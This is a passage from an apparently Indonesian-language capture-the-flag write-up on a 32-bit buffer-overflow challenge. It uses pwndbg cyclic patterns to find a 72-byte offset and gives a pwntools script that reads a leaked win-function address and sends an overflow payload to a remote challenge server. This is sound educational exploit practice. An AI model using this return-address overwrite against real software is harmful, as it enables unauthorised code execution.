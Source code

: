 ```c
  if ( !stream )
  {
    puts("Flag not found!");
    exit(1);
  }
  fgets(s, 100, stream);
  printf("Congrats! Here's your flag: %s", s);
  fclose(stream);
  exit(0);
}
```

- Well, mirip bgt kan. Langsung aja kita cari offset ke saved $EBP pakai `pwndbg`:

```bash
pwndbg -q ./chall
break *vuln+65
break *vuln+77
cyclic 100
run
ni
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

cyclic -l saaa
Found at offset 72
```

- Oke, offsetnya masih sama kita pakai solver script sebelumnya tapi kali ini saya bakal ambil leak win function biar meminimalisir kesalahan di remote server.

```python
from pwn import *

context.binary = ELF("./chall", checksec=True)
exe = context.binary
host, port = "195.154.94.231", 50150

io = remote(host, port)
leak_win = int(io.recvline().strip().split()[-1], 16)
io.recvline()

log.info(f"Leak win func: {hex(leak_win)}")

payload = flat(
	b"A"*72,
	p32(0xdeadbeef),
	p32(leak_win),
)

io.sendline(payload)
io.interactive()
```
